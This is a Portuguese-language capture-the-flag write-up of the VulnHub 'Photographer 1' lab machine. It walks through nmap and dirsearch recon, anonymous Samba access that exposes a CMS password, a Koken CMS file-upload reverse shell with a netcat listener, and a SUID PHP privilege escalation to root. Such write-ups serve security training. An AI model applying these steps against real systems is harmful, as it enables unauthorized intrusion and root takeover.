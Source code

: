 # Photographer 1
----------------
## Introdução
Nessa máquina exploraremos uma enumeração simples a partir de uma escalação
de privilégios horizontal, algo semelhante a atacar um servidor em uma rede
em comum.
Para conseguir acesso à máquina é existe uma imagem ova em 
[Photographer 1](https://www.vulnhub.com/entry/photographer-1,519/).
## Reconhecimento
Antes de mais nada é necessário descobrir o IP da máquina alvo, tendo como base
a rede 192.168.0.0/24 realizando um scanning simples com:
```
$ nmap -sP 192.168.0.0/24 -oN ip_numbers

Nmap scan report for 192.168.0.1
Host is up (0.0046s latency).
... output supressed
Nmap scan report for 192.168.0.24
Host is up (0.0012s latency).
Nmap done: 256 IP addresses (10 hosts up) scanned in 4.38 seconds
```
Pela minha experiência, e pela forma no que eu conheço os IPs são distribuídos
na minha rede, eu sei que a máquina alvo é a com sufixo 24, mas se
necessário é bom realizar mais uma série de scanners nas máquinas da rede e
saber qual a máquina correta.  
Agora devemos encontrar quais serviços estão rodando na máquina alvo e podemos
explorar:
```
$ nmap -sV 192.168.0.24 -oN target_services

Nmap scan report for 192.168.0.24
Host is up (0.0041s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: PHOTOGRAPHER
```
Nesse scanning descobrimos que existem dois servidores web rodando um na porta
80 outro na porta 8000. Também percebemos que existe um servidor Samba rodando
nas portas 139 e 445; uma pesquisa simples na 
[Wikipedia](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers#cite_note-rfc1001-68)
percebemos que a porta 139 geralmente é utilizada para o o serviço de sessão do
NetBios, e que a porta 445 normalmente é utilizada para o
Microsoft-DS(Directory Services) tanto para o diretório ativo(Active Directory)
de compartilhamento de máquinas Windows; como para o compartilhamento de
arquivos via SMB.  
Dito isso, é possível fazer scannings mais aprofundados(e por sua vez
agressivos) com nmap utilizando scripts de reconhecimento de smb, scanning de
TCP/SYN(-sS), etc... Mas isso é algo que demanda tempo especialmente se rodar
todos os scripts de smb de uma vez, e tão pouco é necessário para resolver a
máquina.  
Agora vamos acessar o primeiro site no nosso navegador, é um site extremamente
bem feito para uma máquina a ser explorada, mas que a primeira vista não tem
nenhum entry-point muito claro.  
![website1](./website1.jpg)
Então vamos olhar o outro website na porta 8000, e tampouco parece algo
explorável a primeira vista.  
![website2](./website2.jpg)
Vamos tentar encontrar outros diretórios nos sites com o dirsearch, ou qualquer
brute-forcer de diretórios da sua preferência, utilizarei uma wordlist do
seclists:
```
$ python3 dirsearch/dirsearch.py \
    -e http \
    -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt\
    -u http://192.168.0.24:8000


 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions:  | HTTP method: GET | Suffixes: http | Threads: 10 | Wordlist size: 220521 | Request count: 220521

... output supressed
[14:18:53] Starting:
[14:18:53] 200 -    5KB - /
[14:18:54] 301 -  319B  - /admin  ->  http://192.168.0.24:8000/admin/
[14:18:54] 301 -  321B  - /storage  ->  http://192.168.0.24:8000/storage/
[14:18:55] 301 -  317B  - /app  ->  http://192.168.0.24:8000/app/
[14:18:57] 301 -    0B  - /http  ->  /http/
[14:20:26] 301 -    0B  - /ntlmhttp  ->  /ntlmhttp/
[14:22:45] 403 -  279B  - /server-status
[14:23:23] 302 -    0B  - /27079%5Fclassicpeople2%2Ejpg  ->  /error/404/
[14:24:52] 302 -    0B  - /tiki%2Epng  ->  /error/404/
[14:24:58] 302 -    0B  - /How_to%2e%2e%2e  ->  /error/404/
[14:24:58] 302 -    0B  - /Wanted%2e%2e%2e  ->  /error/404/
[14:25:03] 301 -    0B  - /dom_http  ->  /dom_http/
[14:25:04] 301 -    0B  - /Mainhttp  ->  /Mainhttp/
[14:25:11] 301 -    0B  - /shttp  ->  /shttp/
[14:25:47] 302 -    0B  - /squishdot_rss10%2Etxt  ->  /error/404/
[14:25:49] 302 -    0B  - /b33p%2Ehtml  ->  /error/404/

Task Completed
```
O servidor na porta 80 não mostrou nada muito interessante, já o servidor na
porta 8000 mostra algumas páginas interessantes, em particular /admin, /storage
e /app. Acessando essas páginas percebe-se que apenas /admin é passível de ser
acessada por usuário comum, revelando uma administração a partir do Koken CMS.  
![adminsite](./adminsite.jpg)
Vamos aumentar enumerar a máquina com o enum4linux para tentar encontrar
credenciais para o servidor Samba:
```
$ enum4linux -a 192.168.0.24

Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Aug 11 14:52:16 2020

 ==========================
|    Target Information    |
 ==========================
Target ........... 192.168.0.24
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

... output supressed

 =========================================
|    Share Enumeration on 192.168.0.24    |
 =========================================
Unable to initialize messaging context

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
... output supressed

[+] Attempting to map shares on 192.168.0.24
//192.168.0.24/print$	Mapping: DENIED, Listing: N/A
//192.168.0.24/sambashare	Mapping: OK, Listing: OK
//192.168.0.24/IPC$	[E] Can't understand response:
Unable to initialize messaging context
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

... output supressed
```
Como o enum4linux é extremamente verboso optei por deixar apenas as partes que
nos interessam tal como os sharenames e os usuários conhecidos. Agora
finalmente chegou a hora de fazer contato com o alvo.

## Exploração
Bom, a primeira coisa que nós podemos fazer é verificar o que existe no
servidor Samba já que podemos acessá-lo sem fazer autenticação:
```
$ smbclient //192.168.0.24/sambashare
Unable to initialize messaging context
Enter WORKGROUP\lcr's password:
Try "help" to get a list of possible commands.
smb: \> l
  .                                   D        0  Mon Jul 20 22:30:07 2020
  ..                                  D        0  Tue Jul 21 06:44:25 2020
  mailsent.txt                        N      503  Mon Jul 20 22:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 22:22:23 2020

		278627392 blocks of size 1024. 264268400 blocks available
smb: \> more mailsent.txt

Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
... output supressed
To: Daisa Ahomi <daisa@photographer.com>
... output supressed

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```
Entramos no servidor, e encontramos o e-mail mailsent.txt que por sua vez nos
dão uma ideia das credenciais do CMS, no caso o:  
usuário - daisa@photographer.com  
senha - babygirl  

Agora que temos acesso ao CMS podemos tentar explorar vulnerabilidades no CMS.
Primeiro procuramos por uma entrada no searchsploit:
```
$ searchsploit "Koken"

---------------------------------------- ---------------------------------
 Exploit Title                          |  Path
---------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Uplo | php/webapps/48706.txt
---------------------------------------- ---------------------------------
```
Se desejar dê uma olhada em como a vulnerabilidade funciona, mas basicamente
devemos criar um shell reverso e enviar como uma imagem e depois em um proxy
tal como o Burp Suite ou o Zapproxy alterar a requisição para uma extensão
".php". Para tanto vou utilizar um dos shell 
[reversos padrões do Kali linux](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php)
e abrir uma porta na minha máquina para escutar tal conexão com:
```bash
$ nc -lvnp 12345
listening on [any] 12345 ...
```
Não se esqueça de alterar o ip e a porta no shell reverso para a sua situação.
Após conseguirmos uma conexão, você notará que estamos em um shell bem difícil
de se trabalhar pois não temos tab-completion e uma série de teclas não
funciona tal como o backspace. Para melhorar isso basta digitar:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
Bom agora devemos descobrir qual usuário nós somos e se nós conseguimos
descobrir alguma flag.
```bash
$ whoami
www-data
$ find / -name "user.txt" -o -name "proof.txt" 2> /dev/null
/home/daisa/user.txt
```
Nós temos acesso a primeira flag, mas não à segunda, para conseguir acessar
"proof.txt" será necessário realizar uma escalação de privilégios. Como sabemos
que o sistema roda php podemos utilizá-lo para virar root.
```bash
$ CMD="/bin/sh" /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```
E agora conseguimos acesso total à máquina. E podemos ler o arquivo
/root/proof.txt.

